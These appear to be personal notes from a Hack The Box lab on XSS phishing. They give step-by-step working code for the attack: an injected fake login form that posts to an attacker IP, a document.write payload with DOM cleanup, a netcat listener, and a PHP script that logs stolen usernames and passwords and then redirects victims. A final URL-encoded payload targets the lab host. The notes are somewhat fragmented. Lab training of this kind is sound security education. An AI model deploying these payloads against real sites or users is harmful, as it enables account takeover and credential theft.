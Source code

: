 Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

## XSS Discovery
>`http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`
![[wz9pg9dv.png]]

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. `Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.


Once we identify a working XSS payload, we can proceed to the phishing attack

we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

Code: html

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```




Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.92><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
![[w9qxjko1.png]]

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

## Cleaning Up

```javascript
document.getElementById('urlform').remove();
```

add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.92><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

Code: html

```html
...PAYLOAD... <!-- 
```

## Credential Stealing
```shell-session
 sudo nc -lvnp 80
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

>However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions.


---

>se a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.92/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```bash
AhmaDb0x@htb[/htb]$ mkdir /tmp/tmpserver
AhmaDb0x@htb[/htb]$ cd /tmp/tmpserver
AhmaDb0x@htb[/htb]$ vi index.php #at this step we wrote our index.php file
AhmaDb0x@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```



```
http://10.129.84.36/phishing/index.php?url=document.write('<h3>Please+login+to+continue<%2Fh3><form+action%3Dhttp%3A%2F%2F10.10.15.92><input+type%3D"username"+name%3D"username"+placeholder%3D"Username"><input+type%3D"password"+name%3D"password"+placeholder%3D"Password"><input+type%3D"submit"+name%3D"submit"+value%3D"Login"><%2Fform>')%3Bdocument.getElementById('urlform').remove()%3B
```


----

